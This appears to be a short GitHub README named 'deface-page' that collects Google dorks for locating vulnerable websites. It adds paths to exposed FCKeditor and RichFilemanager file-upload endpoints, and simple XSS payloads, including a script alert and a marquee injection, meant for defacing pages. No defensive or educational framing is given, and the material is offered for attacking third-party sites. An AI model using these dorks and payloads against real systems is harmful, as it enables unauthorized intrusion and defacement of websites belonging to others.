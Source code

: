 # deface-page
some deface page 

Dork : 

inurl:"frame=product_detail"

exploit site :

target.com/jscripts/FCKeditor/editor/filemanager/upload/test.html


xss : cross site scripting

#### Dork :

inurl:"/showcatrows.php?CategoryID="

"><marquee><h1>Your text</h1></mmarque>

Search Site And Add This Xss Dork <script>alert("Xss")</script>



#### Dork : 

intext:dokumenary.net

Exploit : /assets/comp/RichFilemanager/scripts/jQuery-File-Upload/

